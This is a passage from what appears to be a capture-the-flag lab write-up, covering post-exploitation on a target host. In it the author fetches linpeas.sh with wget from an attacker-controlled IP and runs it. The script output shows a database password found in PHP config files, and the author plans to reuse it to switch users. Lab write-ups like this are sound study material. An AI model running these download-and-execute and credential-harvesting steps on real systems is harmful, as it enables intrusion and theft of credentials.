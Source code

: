 # Method 2

Download ```linpeas.sh``` to the target machine and run it.

```
sh-4.2$ cd /tmp
cd /tmp
sh-4.2$ wget http://10.6.10.164:8000/linpeas.sh
wget http://10.6.10.164:8000/linpeas.sh
--2023-03-20 02:18:45--  http://10.6.10.164:8000/linpeas.sh
Connecting to 10.6.10.164:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828172 (809K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6%  260K 3s
    50K .......... .......... .......... .......... .......... 12%  554K 2s
   100K .......... .......... .......... .......... .......... 18% 2.42M 1s
   150K .......... .......... .......... .......... .......... 24%  665K 1s
   200K .......... .......... .......... .......... .......... 30% 1.76M 1s
   250K .......... .......... .......... .......... .......... 37% 7.66M 1s
   300K .......... .......... .......... .......... .......... 43% 7.49M 1s
   350K .......... .......... .......... .......... .......... 49%  971K 0s
   400K .......... .......... .......... .......... .......... 55% 3.86M 0s
   450K .......... .......... .......... .......... .......... 61% 2.12M 0s
   500K .......... .......... .......... .......... .......... 68% 9.80M 0s
   550K .......... .......... .......... .......... .......... 74% 13.5M 0s
   600K .......... .......... .......... .......... .......... 80% 3.34M 0s
   650K .......... .......... .......... .......... .......... 86% 1.07M 0s
   700K .......... .......... .......... .......... .......... 92% 8.62M 0s
   750K .......... .......... .......... .......... .......... 98% 2.25M 0s
   800K ........                                              100% 65.8M=0.6s

2023-03-20 02:18:45 (1.31 MB/s) - 'linpeas.sh' saved [828172/828172]

sh-4.2$ chmod +x linpeas.sh
chmod +x linpeas.sh
sh-4.2$ ./linpeas.sh
```

We found a public password in php config files.

```
╔══════════╣ Searching passwords in config PHP files
        public $password = 'nv5uz9r3ZEDzVjNu';
                        $this->password = (empty($this->options['db_pass'])) ? '' : $this->options['db_pass'];
                        $this->password = null;
                        'password' => $this->password,
```

Let's try this password to switch the user from ```apache``` to ```jjameson```. 

